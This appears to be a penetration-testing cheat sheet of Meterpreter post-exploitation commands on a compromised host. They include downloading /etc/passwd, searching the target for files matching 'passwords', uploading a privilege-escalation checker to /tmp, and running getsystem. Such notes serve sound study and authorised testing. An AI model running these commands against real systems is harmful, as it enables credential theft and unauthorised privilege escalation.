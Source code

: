 List all active channels
```msfconsole
channel -l
```

Interacting with backgrounded channel
```msfconsole
channel -i 1
```

Show local directory in meterpreter
```meterpreter
lpwd
```

Change local directory in meterpreter
```meterpreter
lcd /home/kali/Downloads
```

Download file from the target system to the local directory E.g., /etc/passwd
```meterpreter
download /etc/passwd
```

Upload file on the target system
```meterpreter
upload /usr/bin/unix-privesc-check /tmp/
```
- Upload `unix-privesc-check` to `/tmp` on the target system
- If our target runs the Windows operating system, we need to escape the backslashes in the destination path with backslashes like `\\`

Search for a file E.g., anything with passwords
```meterpreter
search -f *passwords*
```

Display idle time from current user
```meterpreter
idletime
```

Display the user that the Meterpreter server is running as on the host
```meterpreter
getuid
```

Get one or more environment variable values
```meterpreter
getenv
```

Elevate privileges
```meterpreter
getsystem
```

Show list of running processes
```meterpreter
ps
```
